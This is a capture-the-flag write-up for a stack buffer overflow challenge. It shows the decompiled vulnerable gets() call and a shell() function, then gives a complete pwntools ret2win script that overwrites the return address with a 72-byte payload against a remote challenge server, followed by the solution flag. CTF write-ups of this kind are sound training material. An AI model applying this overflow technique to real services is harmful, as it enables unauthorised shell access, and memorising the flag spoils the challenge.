 # basic-overflow #

## Overview ##

Category: Binary Exploitation


Tags: `#Ret2win` `#Stack` `#Overflow` `#Write-What-Where` `#Underflow` `#Overwrite` `#Win` `#Flag` `#Pwntools` `#Ghidra` `#Checksec` `#Calling convention`

## Description ##

This challenge is simple.

It just gets input, stores it to a buffer.

It calls gets to read input, stores the read bytes to a buffer, then exits.

What is gets, you ask? Well, it's time you read the manual, no?

<span style="color:red;">nc 34.123.15.202 5000</span>
## Approach ##

Began by disassembling the `basic-overflow` binary within [Ghidra](https://ghidra-sre.org) and analysing the output.

Also checked the binary security with [pwntools](https://python3-pwntools.readthedocs.io/en/latest/index.html) `checksec` :

    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

Upon examining the disassembled output, we encounter the main() function, which notably includes a call to gets(). This function is notorious for its security vulnerabilities, primarily because it lacks bounds checking for its input size. The relevant section of the code is as follows:

     undefined8 main(void)

      {
      char local_48 [64];
      gets(local_48);
      return 0;
      }

This usage of gets() immediately suggests that the program is susceptible to a buffer overflow attack. This vulnerability arises because gets() does not limit the amount of data read, potentially allowing more data than the allocated buffer size (local_48 in this case, which is 64 bytes) and thus overwriting adjacent memory.

As our analysis progresses, we also discover the shell() function. This function is evidently crafted to execute a shell, as indicated by its implementation:           
    
    void shell(void)

    {
       execve("/bin/sh",(char **)0x0,(char **)0x0);
       return;
    }


    

This is a well-known attack called ret2win in order to trigger the shell function we must firstly overwrite the return address of main() with the address of shell().
That's why we need to find the address of shell() in the binary. We can do this by using Ghidra's symbol tree to search for the function name. The address of shell() is `0x0000000000401136`.
Our offset is 72 bytes(64 bytes for local_48 + 8 bytes for the saved base pointer). We can use pwntools to send the payload to the binary.


## Solution ##



Final `pwntools` script used in the event :

    from pwn import*
 
    r=remote("34.123.15.202",5000)

    offset=72

    shell=p64(0x0000000000401136)
    payload=b"A"*72+shell

    r.sendline(payload)
    r.interactive()

After running the script, we can see that we have a shell. We can then use the `ls` command to list the files in the current directory, and `cat flag` to read the flag.


## Flag ##
`uoftctf{reading_manuals_is_very_fun}`

